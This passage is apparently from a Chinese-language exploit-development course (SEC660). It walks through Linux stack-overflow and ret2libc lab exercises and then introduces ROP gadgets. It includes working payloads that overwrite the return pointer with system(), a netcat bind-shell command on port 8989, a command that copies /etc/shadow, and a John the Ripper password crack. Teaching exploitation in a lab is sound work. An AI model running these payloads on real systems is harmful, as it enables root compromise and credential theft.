注意我们在输入的末尾使用了&符号，这是为了让进程在后台运行。按下一次Enter键后，你需要再按一次Enter键将进程转入后台。如果成功的话，你不会收到段错误。在本示例中，我们成功获得了shellcode的执行权限，并连接到了TCP的9999端口。
## **为什么只有部分地址有效？**
常见问题：
- “我降落在了NOP雪橇上，为什么不起作用？”
- “为什么NOP雪橇上的部分地址有效，其他的却无效？”
- “为什么在调试器内/外有效，反过来却不行？”
**答案：（继续尝试！！！）**
- 缓冲区中的数据可能被覆盖破坏
- 栈对齐问题
- 程序行为的特有特性
- 调试器会降低权限
- 调试器中的内存布局可能存在细微差异
这一页包含了漏洞开发新手的一些常见问题，以及部分解答。归根结底，有时候并没有明确的理由解释为什么某个地址有效而另一个无效。你可以花无数个小时调试和追踪某个地址无效的确切原因，但通常更好的做法是尝试一系列地址，调整shellcode在缓冲区中的位置，增减NOP指令和填充字节，等等。当两个相邻的地址都包含NOP指令时，其中一个有效而另一个无效的原因通常只针对那一个特定程序，下一个程序会有自己的一套问题。
## **练习：Linux栈溢出——核心要点**
- 在存在漏洞的Linux二进制文件中识别缓冲区溢出
- 确定缓冲区大小
- 获取指令指针的控制权
- 绕过身份认证
- 获得shellcode的执行权限！
本次练习的目的是在存在漏洞的概念验证Linux二进制文件中识别缓冲区溢出条件，确定缓冲区大小，获取指令指针的控制权，绕过身份认证，并获得shellcode的执行权限。
## **剥离符号的程序（一）**
- “strip”工具会移除程序的符号表
```bash
$ gcc -fno-stack-protector -z execstack password.c -o password2
$ strip password2
```
```bash
(gdb) disas main
No symbol table is loaded.  Use the "file" command.
```
- 使用info functions命令
- PLT（过程链接表）条目！
- 在gets@plt处设置断点
```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048350  printf
0x08048350  printf@plt
0x08048360  gets
0x08048360  gets@plt
```
当程序使用strip工具剥离符号后，它的符号表会被移除。换句话说，“disas main”这类命令会执行失败。需要符号解析的函数仍然保存在PLT中，这让我们仍然可以设置想要的断点；但程序越大，逆向分析的难度就越高。在上方的示例中，我们再次编译了password.c程序，并给它指定了不同的名称，这样我们就可以剥离它的符号，而不影响已有的password程序。
```bash
gcc -fno-stack-protector -z execstack password.c -o password2
# The -fno-stack-protector flag tells the compiler to refrain from inserting canaries.
# The -z execstack says not to use DEP.
```
```bash
strip password2
# This strips the program
```
现在在GDB中运行“disas main”命令，它会执行失败。GDB中的info functions命令会列出PLT中的所有函数，我们可以在感兴趣的函数上设置断点，来了解它在程序中被调用的位置。
## **剥离符号的程序（二）**
- 在0x8048360处设置断点并运行程序
- 断点被触发后，输入bt命令查看“栈回溯”
- 0x804848a是我们在上一个练习中打到的断点地址！

```bash
(gdb) break *0x8048360
Breakpoint 1 at 0x8048360
(gdb) run
Starting program: /home/deadlist/password2

Breakpoint 1, 0x08048360 in gets@plt ()
(gdb) bt
#0  0x08048360 in gets@plt ()
#1  0x804848a in ?? ()
#2  0x08048555 in ?? ()
#3  0x4103d4d3 in __libc_start_main ()
```
在GDB中输入break *0x8048360命令，这个地址是PLT中gets()函数的地址。每次调用gets()时（如果有多个调用），访问该地址都会触发断点。接着在GDB中运行程序，到达gets()的PLT条目处的断点，然后输入bt命令，它代表栈回溯（backtrace）。该命令会打印出栈帧，展示我们是如何调用到当前函数的。列出的地址实际上是调用函数的返回指针。很明显，我们在上一个练习中使用的地址0x804848a被打印为gets@plt的返回指针。现在我们可以设置和之前相同的断点，来查看我们的数据被复制到缓冲区的情况。
## **返回libc攻击（一）**
- 接下来讲解：返回libc攻击
- 适用于缓冲区太小无法容纳shellcode的情况
- 适用于栈被配置为不可执行的情况
- 栈段中的数据是否应该是可执行的？
- GNU C库（glibc）
现在我们来讲解一种不同的栈攻击方式，叫做返回libc攻击，简称ret2libc。当缓冲区太小无法容纳shellcode，或者栈被设置为不可执行时，这种攻击方法非常实用。程序通常不会在栈上存放可执行代码，因此可以移除栈的执行权限来增加一层防护。这种防护措施在20世纪90年代中期到后期被推广，并且在现代操作系统中默认启用，显著减少了使用传统返回缓冲区方法的基于栈的攻击数量。GNU C库是一个标准库，存放了程序中使用的许多常见函数，这个库中的函数包括printf()、strcpy()、system()、sprintf()等。返回libc攻击的思路是，如果缓冲区太小或者栈不可执行，我们可以通过用目标函数的地址覆盖返回指针，来给libc中的某个函数传递参数。许多函数在调用时被设计为需要接收参数，这允许我们传入任意想要的内容。我们的能力受限于可用的函数及其功能，但通常已经足够完成任务。
## **返回libc攻击（二）**
一些流行的返回xxx攻击方法：
- ret2strcpy和ret2gets攻击
- 可以覆盖任意内存位置的数据
- ret2sys攻击 - C库中的system()函数会通过/bin/sh执行传入的参数
- ret2plt攻击 - 返回到程序加载的函数
- 许多函数都需要接收参数，你可以将这些参数放置在栈上
C库中的system()函数接收一个参数，并使用/bin/sh执行它，这是ret2libc技术的一个常见应用场景。使用这种攻击方法时，部分程序在执行传入system()的参数时会临时降低自身权限，这会导致获得的是一个只有用户级权限的shell。链接多个ret-to-libc调用通常可以帮助绕过这个问题，setreuid()函数也可以帮助恢复权限。请记住，调试器也以降低权限而臭名昭著。如果某件事看起来应该正常工作，但在调试器中却失败了，一定要在调试器外尝试，看看它是否真的能正常工作。当权限阻止执行成功时，你还可能会看到调试器捕获到的sigtrap信号。还有很多其他可以重定向执行的位置，比如过程链接表（PLT）。如果我们查看程序的.reloc节，获取程序内部使用的函数列表，就可以将返回指针覆盖为PLT中的一个条目，并传入我们选择的参数。我们可以使用ret2strcpy攻击在任意内存位置写入任意内容。通过链接多个libc调用，我们可以在内存中的固定位置写入shellcode，最终让返回指针将执行流程导向该地址。


## **练习：ret2libc（1）**
- **目标：** 位于Kubuntu Precise Pangolin系统上的passlibc程序
  - 一款Linux ELF二进制文件
  - 存在栈溢出漏洞的概念验证程序
  - 该程序开启了DEP（w^x）防护
- **目标：**
  - 触发程序内的缓冲区溢出
  - 确定缓冲区大小
  - 验证指令指针的控制权
  - 定位`system()`函数的地址
  - 创建一个环境变量并将其作为`system()`的参数传入
> 你的讲师会先带你过一遍这个练习，在你上手操作前演示所有关键步骤。接下来尝试另一个练习，这次是修改了缓冲区的密码程序的新版本。这个程序叫passlibc，位于你的`/home/deadlist`目录下。这个版本的缓冲区更小，无法直接把shellcode放在缓冲区里再返回到该地址执行。虽然我们可以把shellcode放在返回指针之后并跳转到栈上执行，但该程序编译时开启了execstack标记，利用了硬件DEP（又称w^x）防护。我们的目标是在TCP 8989端口开后门，绑定root级shell。如果我们成功，就能用netcat连接到被入侵的系统，获得root权限的shell。我们会先集体过一遍这个流程，之后你就可以自行尝试类似的练习，也可以完成这个练习。这个练习大约需要30分钟。

## **练习：ret2libc（2）**
- 你的660.4文件夹里有一个名为`checksec.sh`的文件
  - 由Tobias Klein编写，可在http://www.trapkit.de/tools/checksec.html获取
  - 用于检测程序启用了哪些Linux漏洞缓解机制
  - 针对passlibc程序运行它，如下所示
  - 也尝试针对“password”程序运行它
```deadlist@deadlist:~$ ./checksec.sh --file passlibc RELRO STACK CANARY NX PIE Partial RELRO No canary found NX enabled No PIE
```
你的660.4文件夹里有一个`checksec.sh`文件。这是Tobias Klein编写的一个脚本，用于检查程序启用了哪些Linux漏洞缓解机制。你可以通过http://www.trapkit.de/tools/checksec.html在线获取该工具。把它复制到你的Kubuntu Precise Pangolin虚拟机中，尝试针对password和passlibc程序运行它。你会很快注意到passlibc程序编译时开启了w^x（DEP）支持，标记为“NX enabled”。以下是在passlibc程序上运行该工具的示例：
```deadlist@deadlist:~$ ./checksec.sh --file passlibc RELRO STACK CANARY NX PIE Partial RELRO No canary found NX enabled No PIE
```
注意结果为了适配幻灯片做了轻微截断。RELRO与ELF段（如BSS和Data段）的重排序有关，同时还会让全局偏移表（GOT）在运行时变为只读。部分RELRO不会将GOT标记为只读。栈金丝雀选项稍后介绍。当然，NX是数据执行防护。位置独立可执行文件（PIE）通过在每次运行程序时随机化内存映射的位置，来防御面向返回编程（ROP）攻击。我们稍后会介绍地址空间布局随机化（ASLR）。

## **练习：ret2libc（3）**
- 确定缓冲区大小
```deadlist@deadlist:~$ ./passlibc I've caught on to you pal! ... #Shortened for spacing Please enter the password: AAAAAAAA Access Denied! deadlist@deadlist:~$ ./passlibc I've caught on to you pal! ... #Shortened for spacing Please enter the password: AAAAAAAAAAAAAAAAAAAAAAAA Access Denied! Segmentation fault
```
> **8个A：无溢出**
> **24个A：发生溢出**
```deadlist@deadlist:~$ ./checksec.sh --file passlibc RELRO STACK CANARY NX PIE Partial RELRO No canary found NX enabled No PIE
```
首先，确定缓冲区的大小，或者至少尝试找到返回指针的位置。在这个例子中，我们输入8个A来看看程序是否会发生段错误。我们可以看到程序似乎正常退出了。接下来我们把A的数量增加到24个。如你所见，这会产生一个段错误。现在我们想要一个快速的方法来找到返回指针的位置。同样有多种选择，但为了我们的目的，我们使用GDB，如下一张幻灯片所示。一些研究人员更喜欢分析核心转储，而不是在程序执行时主动跟踪它，因为你在不运行调试器的情况下可能会获得更准确的进程信息（例如栈变量的确切位置）。你可以用`gdb -core <核心转储文件名>`把核心转储文件加载到GDB中。在某些操作系统上，你可以用“ulimit -c”命令开启核心转储功能。

## **练习：ret2libc（4）**
- 找到`checkpw()`函数之后下一条指令的地址
```0x08048559 <+39>: call 0x8048464 <checkpw> 0x0804855e <+44>: mov $0x0,%eax
```
- 设置断点来查找返回指针
```0x0804849c <checkpw+56>: lea -0x10(%ebp),%eax 0x0804849f <checkpw+59>: mov %eax,%edx (gdb) break *0x804849c Breakpoint 1 at 0x804849c
```
现在用GDB打开程序。输入**disas main**，查找对`checkpw()`函数的调用。这次调用之后的下一条指令的地址，就是调用`checkpw()`时压入栈中的返回指针地址。接下来我们需要在`checkpw()`函数内数据被复制到缓冲区后不久的位置设置一个断点。输入**disas checkpw**，查找对**`gets()`**函数的调用。这次调用之后的下一条指令的地址是设置断点的好位置。此时我们的数据应该已经被放入缓冲区了。输入命令**break *0x804849c**然后按回车。注意，你的系统上的寻址布局可能略有不同。如果是这种情况，只要找到**`gets()`**函数，使用调用`gets()`之后的指令的地址即可。

## **练习：ret2libc（5）**
- 搜索返回指针`0x804855e`
``` Please enter the password: AAAAAAAA Breakpoint 1, 0x0804849c in checkpw () (gdb) x/20x $esp 0xbffff6a0: 0xbffff6b8 0x08049ff4 0x00000001 0x08048339 0xbffff6b0: 0x411c53e4 0x0000000d 0x41414141 0x41414141 0xbffff6c0: 0x00000000 0x00000000 0xbffff608 0x0804855e 0xbffff6d0: 0x4100f270 0x00000000 0x08048579 0x411c4ff4 0xbffff6e0: 0x08048570 0x00000000 0x00000000 0x4103d4d3
```
覆盖它以验证……根据计算，24个A应该就能生效
```
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
接下来，拿出几页幻灯片前捕获的返回指针的地址。这是调用`checkpw()`之后的下一条指令的地址，应该是`0x0804855e`。因为我们已经设置好了断点，现在输入`run`启动程序。程序现在应该会要求你输入密码。输入8个A然后按回车。程序现在应该会触发我们设置在地址`0x804849c`的断点。此时，我们要检查栈指针附近的的内存，以便定位返回指针。输入命令`x/20x $esp`然后按回车。这个命令会从栈指针的当前位置开始，显示20个双字的内存内容。搜索内存找到返回指针`0x804855e`。找到它之后，只要计算从缓冲区开始到返回指针的字节数即可。你输入了8个A，可以在内存地址`0xbffff298`看到它们。你可以通过查找十六进制值41的连续序列，来直观地定位这些A。再次说明，0x41是十六进制转ASCII编码后的大写字母“A”。因为我们输入了8个A，所以需要包含这8个字节，继续计数直到找到返回指针。从缓冲区开始到返回指针开头的位置应该是20字节。如果我们写入24字节，应该刚好能覆盖返回指针。现在输入`run`重新启动程序，这次输入24个A。你应该会看到一个段错误，显示`0x41414141`在`??()`中。这说明EIP试图执行位于`0x41414141`的指令，这是该程序的无效内存地址。


## 练习：ret2libc（6）- 定位system()函数的地址
```(gdb) p system
$1={<text variable, no debug info>} 0x41061170 <system>
```
- system()函数的地址是0x41061170
- 将我们的参数导出为环境变量
```$ export NC="nc.traditional -l -p 8989 -e /bin/sh"
$ ./env NC
NC is located at 0xbffff957
```
现在我们已经知道了栈上返回指针的位置，接下来需要确定system()函数的地址。如果程序当前没有在GDB中运行，再次输入`run`重启程序。当GDB在你设置的断点处暂停程序执行时，输入`print system`。你应该会得到第一张图里的结果，也就是打印出system()函数的地址0x41061170。请记录下这个地址，你很快会用到它。
接下来我们需要创建一个包含自定义命令的环境变量，该命令会被传递给system()函数。以我们的示例为例，输入：
```export NC="nc.traditional -l -p 8989 -e /bin/sh"
```
你可以输入`echo $NC`来确认你输入的命令是正确的。
然后，进入你的`/home/deadlist`目录，输入命令`./env NC`并按回车。你应该会得到幻灯片底部图片显示的结果。
`env`是一个简单的程序，用于展示你传给它的环境变量在内存中的地址。这个程序用起来很方便，不过它的精度不是100%准确的。
比如，你可能会需要尝试离给出的地址相近的一些地址来找到准确的内存位置，所以如果它给出的是0xbffff957，你要找的实际起始地址可能更接近0xbffff961。
一旦你确定了环境变量的位置，就记录下来，继续下一步。
注意，环境变量的地址会和这张幻灯片上显示的地址不同。每次你创建环境变量时，它都会被放在不同的位置，且仅对你当前的shell生效。

## 练习：ret2libc（7）- 运行攻击程序...
```$ python -c 'print "A" * 20 + "\x70\x11\x06\x41SANS\x57\xf9\xff\xbf"' | ./passlibc
```
``` AAAAAAA 41061170 SANS bffff957
----------+----------+---------+----------
buffer system() Pad Arg ```
我们现在已经拥有攻击passlibc程序所需的所有信息。这张ASCII图回顾了这些信息，并展示了信息应该布置的顺序。
``` AAAAAAA 41061170 SANS bffff961
|----------|----------|----------|----------|
  buffer    system()   Pad        Arg ```
```python -c 'print "A"*20 + "\x70\x11\x06\x41SANS\x57\xf9\xff\xbf"' | ./passlibc # Note that your env var address is going to be different! ```
这段命令会启动passlibc程序，并按照以下顺序输入我们的攻击载荷：首先，我们输入20个A来到达返回指针的起始位置；接着填入system()函数的地址0x41061170；然后添加4字节的填充内容，我选了SANS，但你可以在这里填任意四个字母。这个位置其实是system()函数执行完成后，程序跳转返回的位置。攻击者通常会在这里填入`exit()`函数的地址，让程序正常退出，但就我们的目的而言，这里填什么都无所谓。最后要填入的是我们的NC环境变量的地址，这个环境变量会打开我们的后门。
如果你的攻击没有成功，屏幕上会给出提示，帮助你轻松定位问题。比如，如果你没有填对环境变量的准确起始地址，通常会收到错误提示，类似`-p 8989 -e /bin/sh command not found.`。
看到这个提示，你就可以轻易推断出你的环境变量地址少了几字节，没能完整覆盖`nc.traditional -l -p 8989 -e /bin/sh`这个字符串。这就会引导你把环境变量的地址往低几字节的位置调整。

## 练习：ret2libc（8）
### ret2sys栈布局
| 正常栈 | ret2sys攻击后的栈 |
|:---:|:---:|
| 缓冲区 | 缓冲区 |
| 栈帧指针 | 栈帧指针 |
| 返回指针 | 返回指针 == `system()` |
| 参数 | 4字节填充 |
| | 传给system()的参数 |
- 这个填充位置是调用`system()`函数时的返回指针所在的位置
这张图展示了ret2sys攻击在栈上的布局。左侧是正常的栈，右侧是我们布置ret2sys攻击后的栈。在到达返回指针之前，所有内容都和原来一致。如你所见，我们用system()函数的地址覆盖了原来的返回指针。由于我们是返回到一个函数的起始位置，而不是通过“call”指令调用它，因此我们需要模拟栈应有的样子。`system()`函数期望在栈的下一个4字节位置看到返回指针，之后是`system()`读取的参数。对于`system()`函数调用的返回指针，我们使用填充内容，填充内容是什么都可以，只要它是4字节且不包含空字节，因为空字节会截断字符串。你也可以在这里填入另一个函数的调用来实现函数链式调用，只要提供对应的参数即可。注意，`system()`函数期望接收到的是指向参数的指针。

## 练习：ret2libc（9）- 检查被入侵的主机
```$ netstat -na | grep 8989
tcp  0  0  0.0.0.0:8989  0.0.0.0:*  LISTEN
$ nc.traditional 127.0.0.1 8989
whoami
root
```
- 如果你遇到以下情况怎么办？
```
Please enter the password:
Access Denied!
sh: 1: onal: not found
Segmentation fault
```
要验证攻击是否成功，我们需要检查系统的8989 TCP端口是否处于监听状态。输入命令`netstat -na | grep 8989`查看目标端口是否在监听。如果在监听，就使用命令`nc 127.0.0.1 8989`连接到该端口。你可能会遇到没有提示符的界面，这是正常现象，你可以尝试输入`ls`这类简单命令看看是否有响应。如果有响应，就输入`whoami`命令查看你当前的运行用户身份。如果攻击完全成功，会显示“root”。如果你无法连接，就返回去检查每一步输入是否正确。
ret2libc攻击中你常会遇到的一个问题是猜不对环境变量的准确地址。请注意，你创建的环境变量只在创建它的那个shell中有效。如果你开了两个终端标签页，在另一个标签页里是找不到这个环境变量的，除非你在那里也创建了它，但即便如此，它的地址也很可能不一样。
幻灯片上的第二张图显示我们只执行了环境变量位置上的部分字符串，出现了`sh: 1: onal: not found`的提示。我们的环境变量被设置为运行“nc.traditional”，既然我们看到了“traditional”的一部分，就可以数出`nc.traditional -l -p 8989 -e /bin/sh`这个字符串我们少输了几个字符，然后对应地往前调整地址。你经常会需要微调这个地址。

## 练习：ret2libc——轮到你了！
- **你的目标：**
- 执行return-to-libc攻击，输出并保存`/etc/shadow`文件
- 合并被入侵系统的`/etc/passwd`和`/etc/shadow`文件
- 使用John the Ripper破解用户uberadmin的密码
现在轮到你自己尝试对passlibc程序执行ret2libc攻击了。你已经掌握了执行这次攻击所需的大部分信息，但完成所有步骤（包括确定缓冲区大小、定位返回指针和`system()`函数的地址、利用环境变量获取你需要的参数）的练习仍然很有必要。除了之前提供的内容和前面几页讲过的内容之外，本次练习没有其他提示。后续页面有解决方案，但请不要提前翻看答案，我们会大家一起快速过一遍解决方案。
你的目标是执行同类型的ret2libc攻击，这次要输出`/etc/shadow`密码文件并破解用户uberadmin的密码。你需要使用`unshadow`工具和John the Ripper来完成这次攻击。
当你拿到`/etc/shadow`文件后，`unshadow`工具的语法如下：
```unshadow </etc/passwd file from compromised system> <shadow file you compromised> > <destination file> john <destination file name from unshadow command> ```


## 练习：ret2libc —— 解决方案（1）
```shell
$ export PW="cat /etc/shadow > /tmp/shadow"
$ ./env PW
PW位于地址0xbffffff07处
```
> 导出一个环境变量
```shell
$ python -c 'print "A" * 20 + "\x70\x11\x06\x41SANS\xfd\xfe\xff\xbf" | ./passlibc
```
我抓到你了，伙计！现在缓冲区太小，放不下你的shellcode，而且它是不可执行的！请输入密码：访问被拒绝！段错误
> 运行该漏洞利用程序
```shell
$ ls -la /tmp/shadow
-rw-rw-r-- 1 root root 1215 Oct 14 19:33 /tmp/shadow
```
> 检查/tmp/shadow文件
如同上一道练习，使用ret2libc类攻击成功执行本地漏洞利用的常见方法是创建一个包含需由system()函数执行命令的环境变量。本次练习的目标是获取通常仅root用户可读的/etc/shadow文件副本。为辅助本次漏洞利用导出环境变量可能是最简单的方式，可使用以下命令（或直接将shadow文件内容输出到屏幕）：
```shell
export PW="cat /etc/shadow > /tmp/shadow"
```
接下来，运行env程序打印你刚刚创建的PW环境变量的地址。获取到环境变量地址后，你就可以继续尝试运行漏洞利用程序了。请记住，你的环境变量地址与幻灯片中的地址不同，你很可能需要搜索附近的内存来找到环境变量的精确起始位置。现在可以针对passlibc程序运行漏洞利用程序了，正如你在上一道练习中学到的，在写入返回指针之前需要先输入20个A。命令行漏洞利用的正确布局如下：
```shell
python -c 'print "A"*20 + "\x70\x11\x06\x41SANS\xfd\xfe\xff\xbf" | ./passlibc
```
```text
System()函数 | 填充内容 | 环境变量
```
要判断攻击是否成功，你需要使用`ls -la /tmp/shadow`命令检查/tmp目录下的shadow文件。如幻灯片所示，/tmp/shadow文件已被创建且大小不为0。如果你收到时间信息乱码或权限被拒绝的奇怪提示，请思考当你落在字符串的错误位置时，命令会被如何解析，例如"at /etc/shadow > /tmp/shadow"。☺
## 练习：ret2libc —— 解决方案（2）
- 查看shadow文件
```shell
$ cat /tmp/shadow | grep uberadmin
uberadmin:$6$pS8htbVU$tpiPV85xZkdsuvqOhMzKSADSUw8n3JvRxUb1D0lVnKC/QZkGUmpQDYbQ9dcwGbeMLwo1TnWSBw6P.1nw8vLZs0:15542:0:99999:7:::
```
- 合并/etc/passwd和shadow.txt文件
```shell
$ unshadow /etc/passwd /tmp/shadow > /tmp/unshadow
$ cat /tmp/unshadow |grep uberadmin
uberadmin:$6$pS8htbVU$tpiPV85xZkdsuvqOhMzKSADSUw8n3JvRxUb1D0lVnKC/QZkGUmpQDYbQ9dcwGbeMLwo1TnWSBw6P.1nw8vLZs0:1001:1001:Bruce,123,555-555-5555,555-555-1111:/home/uberadmin:/bin/bash
```
验证你/tmp目录下创建的shadow文件是否包含目标内容。只需运行`cat /tmp/shadow`，检查你是否已捕获uberadmin账户的密码哈希。确认账户信息后，你需要使用unshadow工具将/tmp/shadow文件与/etc/passwd文件合并，执行此操作可使用命令`unshadow /etc/passwd /tmp/shadow >/tmp/unshadow`。之后你可以查看unshadow文件，确认unshadow正确生成了该文件。
## 练习：ret2libc —— 解决方案（3）
- 启动John the Ripper
```shell
$ john --format=crypt /tmp/unshadow
```
```shell
$ john /tmp/unshadow --show
uberadmin:theking9:1001:1001:Bruce,123,555-555-5555,555-555-1111:/home/uberadmin:/bin/bash
```
- 检查uberadmin的密码是否已被破解
- 本书末尾有一个需要用到ret2libc的附加挑战！
SEC660 | 高级渗透测试、漏洞编写与道德黑客
最后，对/tmp/unshadow文件运行John the Ripper来破解uberadmin的账户，只需输入**john --format=crypt /tmp/unshadow**即可完成此操作。成功破解后，你应该会得到uberadmin账户的密码"theking9"，这可能会花费一点时间。今天末尾有一个附加挑战需要使用ret2libc，但由于ASLR已开启，这次会有些不同，你可以现在查看，也可以等到延时时段部分再处理。
## 练习：ret2libc —— 核心要点
- 绕过w^x（DEP）漏洞缓解机制
- 处理缓冲区较小的二进制文件
- 创建有用的环境变量
- 定位system()函数
- 获取系统控制权限
本次练习的目的是绕过Linux二进制文件上的w^x（DEP）漏洞缓解机制，并处理缓冲区过小、无法存放你的shellcode的程序。虽然可以将shellcode放在返回指针之后，然后向栈的反方向跳转，但这并不总是可行，而且DEP会阻止此类攻击成功。
# 面向返回的编程（ROP）
- ROP是面向返回的libc攻击（ret2libc）的后续技术
- Hovav Shacham首次提出了“面向返回的编程（ROP）”这一术语
- https://hovav.net/ucsd/dist/geometry.pdf
- ROP可以是多阶段的，也可以是图灵完备的
- 不一定需要代码注入
- 面向跳转的编程（JOP）技术可通过gadget调度器实现类似目标，避免栈依赖和ESP推进
ROP是一种在现代操作系统上利用漏洞的日益常见的攻击技术。该技术的主要优势是不需要依赖在可能不可执行的内存区域进行代码注入和执行。此外，你还有能力绕过ASLR等其他操作系统防护机制。通过利用一系列被称为“gadget”的指令序列，你可以构建一条潜在图灵完备的代码执行路径，其效果与shellcode相同。
面向返回的libc攻击是一个简单的概念。我们创建一个环境变量，将该环境变量的指针作为参数传递给目标函数，用我们覆写的返回指针指向该函数地址，最终执行我们的参数。当然面向返回的libc攻击还有其他用法，但核心概念基本一致。该技术的一个问题是，成功利用漏洞通常需要本地访问权限，这排除了大多数远程漏洞攻击的可能性。
ROP不局限于本地漏洞利用，因为它使用的是程序加载的常见库中的可执行代码段。只要目标系统上所需代码序列的地址相同，攻击就能成功。使用不同版本库的系统地址可能不同，不过很多版本的地址已被发现相对稳定。
ROP的理念以不同名称存在已久，但直到Hovav Shacham的研究，才证明该技术是图灵完备的。通过使用正确的指令序列（可能需要返回指令），我们可以利用库中存在的代码块来执行攻击者想要的操作。从高层次来看，图灵完备意味着ROP技术可以执行任何功能，比如x86指令集所能实现的功能。
ROP也常以非图灵完备的方式使用，例如执行禁用安全控制之类的操作。在这种方法中，攻击的第一阶段可能使用ROP来格式化栈参数，然后调用所需函数禁用安全控制，最后将控制权返回到新开辟的可执行内存区域中的注入代码。当专门讨论漏洞利用时，也可以用“面向返回的漏洞利用”替代“面向返回的编程”这一术语。
https://hovav.net/ucsd/dist/geometry.pdf
# Gadget（一）
- Gadget是存在于可执行内存中的指令序列，通常以返回指令结尾
- 将多个Gadget串连起来即可实现目标
- x86指令集密度极高，且不受固定指令长度的限制
- 这意味着我们可以指向任意位置
- 这就像一篇没有标点和空格的长句，只要EIP指向有效位置，就会执行目标指令
## Gadget（1）
“gadget”一词用于描述执行目标操作的指令序列，通常以返回指令结尾。该返回指令通常会导向另一个执行另一项操作的Gadget，之后再次执行返回指令。将多个Gadget串连起来即可实现最终目标。x86指令集密度极高，不受特定指令长度的限制。部分架构要求所有指令均为32位宽，但x86并非如此。这意味着我们可以指向有效指令的中间位置，从而执行不同的指令。编译后的x86代码可以类比为没有标点和空格的长句。举个例子，单词“contraption”，如果我们指向它的第4个字母，就能得到单词“trap”。另一个例子是短语“now-is-here”，其中的连字符表示一系列无空格的单词。如果我们取“now”的最后一个字母、“is”的两个字母以及“here”的第一个字母，就能组成单词“wish”。


## 小工具 (2)
``` whatistheaddressofthepartyonightbecauseiwanttomakesureidonotarrivebeforealltheotherguests ```
- 这显然是一个没有标点和空格的句子
- ……但根据位置不同，存在选择其他“非预期”词的机会
- 如果我们按正确的顺序选择这些词，且它们后面跟着返回语句，就能构造出一个新句子
本幻灯片通过类比的方式，将构造小工具与从一段无标点无空格的长英文句子中生成新句子的过程进行了对比。
``` whatistheaddressofthepartyonightbecauseiwanttomakesureidonotarrivebeforealltheotherguests ```
原本清晰的句子是：“今晚派对的地址是什么，因为我想确保我比所有其他客人都晚到？”
如果像本示例这样去掉所有空格，忽略原本想表达的句子，就能拼接出大量单词。
如果我们选择这些新发现的单词，按正确顺序拼接，就能构造出一个新句子。
## 小工具 (3)

- 1）
- 2）
- 3）
- 4）
### 她的艺术是真实的
> _这个例子是人为编造的，但你应该明白其中的道理！_
SEC660 | 高级渗透测试、漏洞利用编写与道德黑客
本幻灯片给出了一个拼接非预期单词以构造新句子的示例。
尽管这是个虚构的示例，但你能看出构造小工具的核心目标。
幻灯片中仅展示了扫描这段长句子所能得到的部分非预期单词。
按1到4顺序排列的箭头展示了新句子“她的艺术是真实的”的构造过程。
## 小工具，真实示例

- 地址7c8016cc处存放着真正预期的指令
- 如果我们将地址偏移1字节，指向7c8016cd会怎么样？

- 仅偏移1字节，就出现了完全不同的指令，后面还跟着一条返回指令！
- 小工具就是这样构造的……
接下来看一个更贴近实际的示例。
幻灯片顶部的图片来自Windows系统的kernel32.dll文件。
预期的指令如下：
```assembly
7C8016CC 8B45 20 MOV EAX,DWORD PTR SS:[EBP+20]
7C8016CF 3BC3 CMP EAX,EBX
```
这条指令只是将位于EBP+20处的指针移动到EAX寄存器中。
如果我们将指针指向0x7c8016cc处预期指令偏移1字节的位置，会发生什么？
结果如幻灯片底部图片所示：
```assembly
7C8016CD 45 INC EBP
7C8016CE 203B AND BYTE PTR DS:[EBX],BH
7C8016D0 C3 RETN
```
由于x86指令集不要求指令具有固定长度，我们可以通过指向任意所需的位置来生成新的、非预期的指令。
修改后的指令现在会将EBP寄存器的值加1，对位于EBX寄存器内某指针处的字节与BH寄存器（BX寄存器的高字节）执行逻辑“与”操作，最后执行返回。
小工具就是这样构造的。
位于0x7c8016d0处的“C3”返回指令原本并不打算作为返回指令使用；但通过按照图示修改地址，我们可以将其当作返回指令，跳转到另一个小工具。
试想，如果将多个小工具拼接起来，执行与system()函数相同的操作会怎样？
我们永远不会像return-to-libc攻击那样直接调用system()函数，而是从任意可执行库或其他代码段中拼接小工具，执行与system函数相同的操作。
## 无返回的ROP - 霍瓦夫·沙哈姆（Hovav Shacham）和斯蒂芬·切科韦（Stephen Checkoway）发布了一篇关于无返回ROP的论文
- https://hovav.net/ucsd/dist/noret.pdf
- 该思路旨在规避一些会扫描代码、查找频繁出现返回指令的指令流的防护机制
- 另一种防护机制会尝试查找违反栈后进先出（LIFO）特性的行为
- 使用pop指令和jmp *(reg)指令可以实现与返回指令相同的目标
目前，研究、代码审计和编译器校验控制机制已经开始关注能够阻止ROP攻击成功的相关技术。
这类技术最常见的实现方式是，在预定义区域内扫描代码序列，查找大量返回指令。
如果检测到这类情况，就会采用多种技术对代码进行重排或修改，以规避存在潜在危险的操值码。
另一种技术则关注栈段的后进先出（LIFO）特性。
ROP攻击要求能够将所有指针和填充数据写入可写内存，这些指针指向的是由返回指令结尾的代码序列。
ROP指针在栈上的位置对检测工具来说可能显得异常。
霍瓦夫·沙哈姆和斯蒂芬·切科韦发布了一篇关于无返回ROP的论文，本文写作时该论文的下载地址为https://hovav.net/ucsd/dist/noret.pdf。
该技术研究的是不使用返回指令跳转到代码的替代方法。
一种方法是从栈中弹出一个值到寄存器，然后使用一条指令跳转到存放该弹出值的寄存器所指向的指针位置。
尽管执行该操作的所需代码序列没有返回指令常见，但这清楚地证明了现有用于防范ROP的机制并不充分。
## 课程路线图
- 渗透测试员网络攻击技术
- 密码学与后期利用
- Python、Scapy与模糊测试
- 渗透测试员Linux利用技术
- 渗透测试员Windows利用技术
- 夺旗赛挑战
### 第4天
#### 内存基础
#### Shellcode基础
#### 栈溢出攻击
- 练习：Linux栈溢出
- 练习：ret2libc
#### 高级栈溢出破坏
- 练习：x64_vuln
#### 集训营
- 练习：暴力破解ASLR
- 练习：mbse
- 附加练习：带ASLR的ret2libc
在本模块中，我们将介绍更难以绕过或破解的防护机制，例如现代Linux内核中的栈金丝雀（stack canaries）和地址空间布局随机化（ASLR）。
在接触这些更高级的概念时，你必须记住：许多现代利用技术的成功，都离不开打破常规思维和坚持不懈的尝试。
这些技术的应用也是有前提条件的。
## 学习目标
- 本模块的学习目标包括：
- 破解栈金丝雀
- 地址空间布局随机化（ASLR）
- 破解Linux 2.6.17内核的ASLR
- 破解Linux 2.6.22及更高版本内核的ASLR
本模块首先会讲解Linux系统中的栈金丝雀机制，以及它对你的利用尝试造成的影响。
之后我们会介绍在可能的情况下破解金丝雀的若干方法。
接下来，我们会探讨从安全角度看攻击者面临的最大难题之一：地址空间布局随机化（ASLR）。
